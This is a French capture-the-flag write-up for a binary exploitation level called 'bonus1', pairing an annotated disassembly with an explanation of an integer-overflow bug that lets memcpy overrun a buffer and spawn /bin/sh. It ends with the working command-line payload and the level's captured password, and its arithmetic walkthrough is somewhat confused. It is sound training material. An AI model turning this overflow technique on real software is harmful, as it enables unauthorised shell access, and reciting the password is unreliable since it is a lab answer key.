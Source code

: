 ```
08048424 <main>:
 8048424:	55                   	push   ebp
 8048425:	89 e5                	mov    ebp,esp
 8048427:	83 e4 f0             	and    esp,0xfffffff0
 804842a:	83 ec 40             	sub    esp,0x40
 804842d:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 8048430:	83 c0 04             	add    eax,0x4
 8048433:	8b 00                	mov    eax,DWORD PTR [eax]
 8048435:	89 04 24             	mov    DWORD PTR [esp],eax
 8048438:	e8 23 ff ff ff       	call   8048360 <atoi@plt>			; int arg1 = atoi(argv[1]);
 804843d:	89 44 24 3c          	mov    DWORD PTR [esp+0x3c],eax
 8048441:	83 7c 24 3c 09       	cmp    DWORD PTR [esp+0x3c],0x9
 8048446:	7e 07                	jle    804844f <main+0x2b>			; if (arg1 <= 9)
 8048448:	b8 01 00 00 00       	mov    eax,0x1						; else return 1;
 804844d:	eb 54                	jmp    80484a3 <main+0x7f>
 804844f:	8b 44 24 3c          	mov    eax,DWORD PTR [esp+0x3c]
 8048453:	8d 0c 85 00 00 00 00 	lea    ecx,[eax*4+0x0]				; &(arg1 * 4)
 804845a:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 804845d:	83 c0 08             	add    eax,0x8
 8048460:	8b 00                	mov    eax,DWORD PTR [eax]
 8048462:	89 c2                	mov    edx,eax						; argv[2]
 8048464:	8d 44 24 14          	lea    eax,[esp+0x14]				; char str[44]
 8048468:	89 4c 24 08          	mov    DWORD PTR [esp+0x8],ecx
 804846c:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 8048470:	89 04 24             	mov    DWORD PTR [esp],eax
 8048473:	e8 a8 fe ff ff       	call   8048320 <memcpy@plt>					; memcpy(str, argv[2], &(arg1 * 4))
 8048478:	81 7c 24 3c 46 4c 4f 	cmp    DWORD PTR [esp+0x3c],0x574f4c46
 804847f:	57 
 8048480:	75 1c                	jne    804849e <main+0x7a>					; if ( != 0x574f4c46) return 0;
 8048482:	c7 44 24 08 00 00 00 	mov    DWORD PTR [esp+0x8],0x0
 8048489:	00 
 804848a:	c7 44 24 04 80 85 04 	mov    DWORD PTR [esp+0x4],0x80485	80		; "sh"
 8048491:	08 
 8048492:	c7 04 24 83 85 04 08 	mov    DWORD PTR [esp],0x8048583			; "/bin/sh"
 8048499:	e8 b2 fe ff ff       	call   8048350 <execl@plt>					; execl("/bin/sh", "sh", 0)
 804849e:	b8 00 00 00 00       	mov    eax,0x0
 80484a3:	c9                   	leave  
 80484a4:	c3                   	ret    
```
`int execl(const char *pathname, const char *arg, .../*, (char *) NULL */);`

Bon, l'objectif est pas compliqué, notre payload va dans `argv[2]`, on doit écrire l'adresse `0x574f4c46` dans `esp+0x3c` qui est bien après notre `str`, donc on peut override facilement, et il faudra utiliser `argv[1]` pour copier le nombre parfait de bits dans `str` grâce à un overflow négatif.

On sait que le minimum c'est `-2147483648` et le INTMAX `2147483647`. Donc, on peut jouer sur ces propriétés là.
L'objectif est d'écrire 40 octets de padding + 4 octets (notre "adresse"). Donc 44.

Ici, il faut jouer avec le "modulo" pour trouver la bonne adresse à taper. Déjà une chose, on peut utiliser n'importe quel nombre entre 9 et INT_MIN, par conséquent, si on doit tourner 4 fois (donc ~INT_MIN + ~INT_MIN + ~INT_MIN + ~INT_MIN) et on peut arriver à 48 en laissant s'envoler quelques octets à chaque fois.

Exemple :
INT_MIN - 11:
1. INT_MIN + 11 (-2147483637)
2. (INT_MIN + 11) * 2 = 2 * INT_MIN + 22. Hors, 2*INT_MIN = 0, donc on est à 22.
3. 22 + INT_MIN + 11 = 33 + INT_MIN = -2147483615
4. (INT_MIN + 11) * 2 = (INT_MIN * 4 = INT_MIN * 2 * 2 = 0 * 2 = 0) + 11 * 4 = 44

Bah pour un exemple on tombe juste...

Payload:
```
./bonus1 -2147483637 `python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"'`
```

Password:
`579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`